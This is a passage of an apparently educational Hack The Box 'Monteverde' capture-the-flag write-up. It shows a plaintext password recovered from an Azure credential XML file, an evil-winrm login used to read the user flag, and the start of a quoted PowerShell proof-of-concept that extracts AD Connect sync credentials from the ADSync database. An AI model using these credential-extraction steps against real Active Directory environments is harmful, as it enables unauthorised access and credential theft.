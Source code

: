 ```bash
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

We were right with our guess that this file could have interesting information, we get the password `4n0therD4y@n0th3r$`.

## Evil-WinRM as mhope

```bash
luc@kali:~/HTB/Monteverde$ evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\mhope\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\mhope\Desktop> type user.txt
4961976b************************
```

## Privilege escalation via Azure Admins group

We've our connection as mhope, but we don't have administrator/system access yet.

```bash
*Evil-WinRM* PS C:\> whoami /groups
...
MEGABANK\Azure Admins                       Group            S-1-5-21-391775091-850290835-3566037492-2601 Mandatory group, Enabled by default, Enabled group
...
```

We're part of the `Azure Admins` group, this sounds interesting. [XPN](https://blog.xpnsec.com/azuread-connect-for-redteam/) wrote a blog post about using the `Azure Admins` group to extract the Admin credentials. This script is copied from that blog post.

```powershell
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
```